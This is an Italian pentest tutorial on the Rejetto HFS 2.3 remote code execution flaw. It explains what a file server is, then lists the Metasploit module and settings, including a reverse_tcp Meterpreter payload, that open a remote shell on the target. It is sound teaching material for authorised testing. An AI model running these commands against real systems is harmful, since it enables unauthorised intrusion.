 # Exploiting a Vulnerable HTTP File Server (HFS)

Un **HTTP File Server (HFS)** è un tipo di server web progettato appositamente per la **condivisione di file** con utenti remoti. A differenza dei server web tradizionali, il cui scopo principale è **ospitare siti web** o **fornire documenti statici e dinamici** (come HTML, CSS, immagini o script), un HFS è ottimizzato per permettere **il download diretto di file** e l'accesso a directory da parte di utenti collegati alla rete.

---

## Differenze tra HFS e Web Server Standard

Un **server web standard** (come Apache, NGINX o Microsoft IIS) è configurato per fornire contenuti web, gestire richieste HTTP complesse, eseguire codice lato server e integrare funzionalità dinamiche come PHP o ASP.NET.

Un **HTTP File Server**, invece, è semplificato e progettato con un obiettivo primario: **la condivisione rapida e semplice di file**, sia in **rete locale** che su **Internet**. Questo tipo di server permette agli utenti di accedere a documenti condivisi tramite browser, e spesso include funzionalità di navigazione tra directory, download diretto e caricamento (upload) controllato.

---

## Rejetto HFS

Uno dei software più noti per la gestione di HTTP File Server è **Rejetto HFS**. Si tratta di un'applicazione:

- **Gratuita e open-source**.
- Disponibile per **Windows** (ma può essere eseguita anche su Linux tramite Wine).
- Dotata di una **interfaccia grafica semplice** per configurare la condivisione di directory.
- Molto utilizzata per ambienti casalinghi, laboratori, o reti aziendali leggere.

La versione **2.3** di Rejetto HFS contiene una **vulnerabilità nota di tipo Remote Code Execution (RCE)**, che consente a un attaccante remoto di eseguire comandi arbitrari sul sistema target.

---

## La Vulnerabilità di Rejetto HFS 2.3

Nella versione 2.3 di Rejetto HFS è presente una falla che consente, tramite una richiesta HTTP appositamente costruita, di eseguire comandi sul sistema operativo che ospita il server.

Questa vulnerabilità è stata **catalogata e inclusa nel database di Metasploit**, dove è disponibile un exploit pubblico completamente funzionante.

---

## Sfruttamento con Metasploit

Per sfruttare questa vulnerabilità all'interno di un penetration test, è possibile utilizzare il modulo Metasploit:
```bash
use exploit/windows/http/rejetto_hfs_exec
```

Questo modulo sfrutta la falla nella gestione delle richieste HTTP da parte del server vulnerabile per ottenere una **sessione Meterpreter**, o un altro tipo di shell, a seconda del payload selezionato.

Dopo aver caricato il modulo, sarà necessario configurare:
- `RHOST` ⟶ l'IP del server HFS vulnerabile.
- `RPORT` ⟶ la porta su cui è in ascolto (di default 80).
- `PAYLOAD` ⟶ il tipo di payload desiderato (es. `windows/meterpreter/reverse_tcp`).
- `LHOST` e `LPORT` ⟶ l'indirizzo e la porta della macchina attaccante per ricevere la connessione.

Esempio:
```bash
set RHOST 192.168.1.100
set RPORT 80
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

Se il target è vulnerabile, l’attaccante otterrà **accesso remoto** al sistema bersaglio con privilegi dell’utente con cui gira il processo di HFS.

---
